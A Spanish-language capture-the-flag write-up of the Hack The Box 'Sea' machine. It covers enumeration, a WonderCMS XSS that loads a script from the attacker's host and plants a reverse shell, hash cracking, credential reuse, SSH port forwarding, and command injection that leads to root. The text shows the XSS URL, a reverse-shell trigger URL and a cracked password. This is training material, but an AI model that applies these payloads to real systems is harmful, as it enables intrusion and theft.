+++
author = "Andrés Del Cerro"
title = "Hack The Box: Sea Writeup | Easy"
date = "2024-08-12"
description = ""
tags = [
    "HackTheBox",
    "Sea",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "Credentials Reuse",
    "Port Forwarding",
    "Decrypting Password",
    "HTTP Enumeration",
    "Server Side Request Forgery",
    "XSS",
    "Command Injection"
]

+++

# TCP Enumeration

```shell
$ rustscan -a 10.129.244.211 --ulimit 5000 -g
10.129.244.211 -> [80,22]
```

```shell
$ nmap -p80,22 -sCV 10.129.244.211 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 09:55 CEST
Nmap scan report for 10.129.244.211
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```

# UDP Enumeration
```shell
 sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.244.211 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 09:56 CEST
Nmap scan report for 10.129.244.211
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
18818/udp closed unknown
25402/udp closed unknown
37444/udp closed unknown
41638/udp closed unknown
48189/udp closed unknown
58419/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

Solo vemos el puerto 22/TCP y 80/TCP, por lo cual el puerto 80 debe de ser el punto de entrada.

# HTTP Enumeration
Haciendo un `whatweb` podemos ver que se está utilizando PHP por detrás.

```shell
$ whatweb http://10.129.244.211
http://10.129.244.211 [200 OK] Apache[2.4.41], Bootstrap[3.3.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.244.211], JQuery[1.12.4], Script, Title[Sea - Home], X-UA-Compatible[IE=edge]
```

Según ingresamos en el sitio web vemos un a imagen con un texto, velik71


También descubrimos un dominio, `sea.htb`, lo añadimos al `/etc/hosts`


Fuzzeando con `feroxbuster` encontramos varias rutas que me hacen pensar que existe un CMS detrás, pero aún no se cual.


Investigando un poco, podemos encontrar este post.


Y podemos deducir que por detrás se utiliza `WonderCMS`


Ahora bien, necesito saber cual es el panel de inicio de sesión para intentar ganar acceso ya que exploits como [este](https://www.exploit-db.com/exploits/51805) necesita una cookie de sesión.

Buscando por foros vemos que por defecto el path para iniciar sesión es `/login` pero que podemos personalizarlo en el archivo `database.js`

Revisando el código del exploit mencionado anteriormente, vemos lo siguiente.


Y al probar esa URL...


# Foothold
Después de probar un rato, en el `contact.php` podemos introducir un sitio web nuestro y podemos ver que nos llegan solicitudes, por lo cual intentemos usar el exploit anteriormente mencionado.


El exploit consiste en un XSS que cargará un script malicioso de nuestro lado que conseguirá subir una reverse shell.

Si todo sale bien, debería de subirse una revshell en esa ruta


Después de un rato probando, probé con esta URL `http://sea.htb/"></form><script+src="http://10.10.14.13:8000/xss.js"></script><form+action="` . Y sorprendentemente funcionó.


Ahora podemos ver que para mandarnos la revshell, debemos utilizar los parámetros `lhost` y `lport`



Así que accediendo a `http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.13&lport=443`..

¡Vemos que ganamos acceso!


# User Pivoting
En el archivo `/data/database.js` podemos encontrar un hash.


Deducimos que es el modo 3200 en `hashcat`


Antes de empezar a crackear el hash, hay que tener en cuenta que las `\` sobran ya que es para escapar las `/`, así que las eliminamos.

Así queda el hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`

¡Y conseguimos crackear la password!


¡Y podemos migrar de usuario!


Y leer la flag.
```shell
may@sea:~$ cat user.txt 
3290eed2bd498c56b...
```

# Privilege Escalation

Podemos encontrar un binario con permisos SUID interesante.
```shell
amay@sea:~$ file /opt/google/chrome/chrome-sandbox
/opt/google/chrome/chrome-sandbox: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=810fb5876a6ce41bb6431f7273efe24800978d66, stripped
```

También encontramos un servicio en el puerto 8080 interno de la máquina

```shell
$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:53901         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -         
```

Podemos ver que este servicio web es diferente al anterior.
```shell
amay@sea:~$ curl http://127.0.0.1:8080
Unauthorized access
```

Vamos a compartirnos este puerto con SSH para que el puerto 8080 de la máquina víctima se convierta en mi puerto 8080 de mi máquina de atacante.

```shell
$ sshpass -p 'mychemicalromance' ssh -L 8080:127.0.0.1:8080 amay@sea.htb
```

Y vemos que nos pide unas credenciales.


Si probamos `amay:mychemicalromance`



Cambiamos el puerto del proxy de `burpsuite` para que no choque con el servicio que nos hemos compartido..


Analizando la función de `Analyze Log File` vemos que en la petición se tramita una ruta.



Por lo cual quizás podemos insertar otra ruta distinta, o intentar inyectar un comando a nivel de sistema.

Nos ponemos en escucha de trazas ICMP con `tcpdump`

```shell
$ sudo tcpdump -i tun0 icmp
```

Y si intentamos inyectar un comando...


¡Perfecto!
```shell
12:01:01.519973 IP sea.htb > 10.10.14.13: ICMP echo request, id 3, seq 1, length 64
12:01:01.519992 IP 10.10.14.13 > sea.htb: ICMP echo reply, id 3, seq 1, length 64
```

No se como que usuario voy a conseguir ganar acceso aún, pero vamos a mandarnos una revshell.

Con este payload nos mandamos la revshell


Y ganamos acceso como `root`


Podemos leer la flag de `root`
```shell
(remote) root@sea:/root/monitoring# cat /root/root.txt
d4be647341065f...
```

¡Y ya estaría!

Feliz Hacking! 🚀